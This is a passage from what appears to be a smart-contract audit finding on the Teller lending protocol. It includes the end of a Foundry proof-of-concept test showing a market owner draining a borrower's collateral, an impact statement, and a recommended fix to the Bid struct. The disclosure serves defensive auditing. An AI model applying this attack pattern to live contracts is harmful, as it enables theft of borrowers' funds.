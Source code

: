 ```solidity
        console.log("MarketOwner ERC20 balance:       ",lendingToken.balanceOf(address(marketOwner)));
        console.log("Collaterall Proxy ERC20 balance:    ",lendingToken.balanceOf(0x1F88f48585ad6754e59c03debd4502399e33Ff50)); //Beacon proxy, CollateralManager.sol `mapping(uint256 => address) public _escrows`

        vm.warp(block.timestamp+15);
        collateralManager.withdraw(0);

        console.log("===========================AFTER liquidate by lender=================================");
        console.log("Borrower ERC20 balance:          ",lendingToken.balanceOf(address(borrower)));
        console.log("Lender ERC20 balance:            ",lendingToken.balanceOf(address(lender)));
        console.log("MarketOwner ERC20 balance:       ",lendingToken.balanceOf(address(marketOwner)));
        console.log("Collaterall Proxy ERC20 balance:    ",lendingToken.balanceOf(0x1F88f48585ad6754e59c03debd4502399e33Ff50)); //Beacon proxy, CollateralManager.sol `mapping(uint256 => address) public _escrows`

        vm.stopPrank();

    }
}
```
![image](https://user-images.githubusercontent.com/106747559/232792300-d8cd38e4-336c-4bdd-a98f-8b789855c8d6.png)

As a result we see that borrower had `100 eth`, after attack `0 eth`.
Market owner + lender (second acc controlled by market owner) had `100 eth`, after attack `200 eth`.

## Impact
All bid's collateral under attack.

## Code Snippet
https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/CollateralManager.sol#L250
https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/MarketRegistry.sol#L621


## Tool used
Manual review

## Recommendation
Add to Bid struct variable which fix `MarketFeePercent`, `PaymentCycle` and  `PaymentDefaultDuration`.
Than add require, that they should equal while accepting bid.
```solidity
struct Bid {
    address borrower;
    address receiver;
    address lender; // if this is the LenderManager address, we use that .owner() as source of truth
    uint256 marketplaceId;
    bytes32 _metadataURI; // DEPRECATED
    LoanDetails loanDetails;
    Terms terms;
    BidState state;
    PaymentType paymentType;
}
```